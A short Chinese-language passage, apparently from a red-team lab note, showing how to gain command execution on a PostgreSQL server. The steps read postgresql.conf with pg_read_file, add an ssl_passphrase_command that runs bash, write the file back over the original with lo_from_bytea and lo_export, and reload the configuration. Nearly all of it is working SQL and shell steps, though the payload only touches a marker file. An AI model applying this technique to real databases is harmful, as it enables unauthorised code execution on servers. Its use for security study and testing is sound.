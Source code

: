 读取配置文件内容

```
select setting from pg_settings where name='config_file'
select pg_read_file('/var/lib/postgresql/data/postgresql.conf');
```

在原始配置文件内容末尾追加上ssl配置

```
ssl = on
ssl_cert_file = '/etc/ssl/certs/ssl-cert-snakeoil.pem'
ssl_key_file = '/var/lib/postgresql/data/PG_VERSION'
ssl_passphrase_command_supports_reload = on
ssl_passphrase_command = 'bash -c "touch /tmp/success & echo 12345678; exit 0"'
```

转为 base64 格式
```bash
# 这里我将配置文件的内容存到了 out.txt 中
cat out.txt | base64 -w 0 > base3.txt
```

```sql
-- 将修改后的配置文件加载到largeobject中
select lo_from_bytea(10001,decode('base64的内容,这里略','base64'));

-- 通过lo_export覆盖配置文件
select lo_export(10001,'/var/lib/postgresql/data/postgresql.conf');
SELECT lo_unlink(10001);

-- 重新加载配置文件
select pg_reload_conf();
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/50.png)
